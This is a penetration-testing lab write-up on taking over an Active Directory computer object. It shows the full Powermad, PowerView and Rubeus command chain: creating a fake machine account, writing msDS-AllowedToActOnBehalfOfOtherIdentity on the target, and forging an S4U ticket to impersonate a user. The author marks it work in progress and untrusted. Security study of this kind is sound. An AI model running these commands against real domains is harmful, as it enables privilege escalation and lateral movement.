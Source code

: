 # AD Computer Object Take Over and Privileged Code Execution

{% hint style="info" %}
WIP - Do not trust
{% endhint %}

It's possible to gain code execution with elevated privileges on a computer if you have ownership privileges for the victim's computer AD object.

This lab is based on a video presented by [@wald0](https://twitter.com/_wald0?lang=en) - [https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be](https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be)

## Requirements

|  |  |
| :--- | :--- |
| Target computer | WS01 |
| Admins on target computer | mantvydas |
| Fake computer name | FAKE01 |
| Fake computer SID |  |
| Fake computer password |  |
| Windows 2012 Domain Controller |  |
|  |  |

Getting the target local admin of the system:

```text
net localgroup administrators
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-34-56.png)

Since the attack will entail creating new computer objects on the domain, let's check if users are allowed to add computers to the domain - by default, a user should be allowed to add up to 10 computers. To check this, we can query the root domain object and look for property `ms-ds-machineaccountquota`

```csharp
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-49-58.png)

The attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```text
Get-DomainController
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-56-15.png)

Last thing to check - target computer object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set:

```text
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-03-32.png)

This is the attribute the above command is referring to:

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-08-47.png)

Let's now create a new computer object for our computer `FAKE01` \(as referenced earlier in the requirements table\):

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-30-46.png)

Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1153
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-33-04.png)

Create a new raw security descriptor for the FAKE01$ computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1153)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-46-31.png)

Applying the security descriptor bytes to the target WS01$ machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-38-54.png)

Reminder - we were able to write this because offense\Sandy belongs to security group offense\Operations, which has full control over the target computer WS01$:



![](../../.gitbook/assets/screenshot-from-2019-03-26-22-40-43.png)

If our user did not have required privileges, you could infer that from the verbose error message:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-43-25.png)

Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-42-18.png)

Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-41-34.png)

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-46-25.png)

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-45.png)

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-57%20%281%29.png)

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-01-23.png)

## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}





